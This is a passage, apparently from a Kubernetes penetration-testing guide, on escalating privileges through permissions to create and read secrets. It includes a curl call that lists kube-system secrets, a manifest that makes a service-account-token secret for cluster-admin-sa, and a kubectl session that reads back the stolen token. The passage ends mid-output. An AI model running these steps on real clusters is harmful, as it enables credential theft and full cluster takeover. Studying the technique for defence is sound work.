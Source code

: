```bash
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```

### Creating and Reading Secrets

There is a special kind of a Kubernetes secret of type **kubernetes.io/service-account-token** which stores serviceaccount tokens.
If you have permissions to create and read secrets, and you also know the serviceaccount's name, you can create a secret as follows and then steal the victim serviceaccount's token from it:

```yaml
apiVersion: v1
kind: Secret
metadata:
  name: stolen-admin-sa-token
  namespace: default
  annotations:
    kubernetes.io/service-account.name: cluster-admin-sa
type: kubernetes.io/service-account-token
```

Example exploitation:

```bash
$ SECRETS_MANAGER_TOKEN=$(kubectl create token secrets-manager-sa)

$ kubectl auth can-i --list --token=$SECRETS_MANAGER_TOKEN 
Warning: the list may be incomplete: webhook authorizer does not support user rule resolution
Resources                                       Non-Resource URLs                      Resource Names   Verbs
selfsubjectreviews.authentication.k8s.io        []                                     []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                                     []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                                     []               [create]
secrets                                         []                                     []               [get create]
                                                [/.well-known/openid-configuration/]   []               [get]
<SNIP>
                                                [/version]                             []               [get]

$ kubectl create token cluster-admin-sa --token=$SECRETS_MANAGER_TOKEN 
error: failed to create token: serviceaccounts "cluster-admin-sa" is forbidden: User "system:serviceaccount:default:secrets-manager-sa" cannot create resource "serviceaccounts/token" in API group "" in the namespace "default"
                                                                                                                                                                                            
$ kubectl get pods --token=$SECRETS_MANAGER_TOKEN --as=system:serviceaccount:default:secrets-manager-sa
Error from server (Forbidden): serviceaccounts "secrets-manager-sa" is forbidden: User "system:serviceaccount:default:secrets-manager-sa" cannot impersonate resource "serviceaccounts" in API group "" in the namespace "default"

$ kubectl apply -f ./secret-that-steals-another-sa-token.yaml --token=$SECRETS_MANAGER_TOKEN
secret/stolen-admin-sa-token created

$ kubectl get secret stolen-admin-sa-token --token=$SECRETS_MANAGER_TOKEN -o json                      
{
    "apiVersion": "v1",
    "data": {
        "ca.crt": "LS0tLS1CRUdJTiBDRVJUSUZJQ0FU<SNIP>UlRJRklDQVRFLS0tLS0K",
```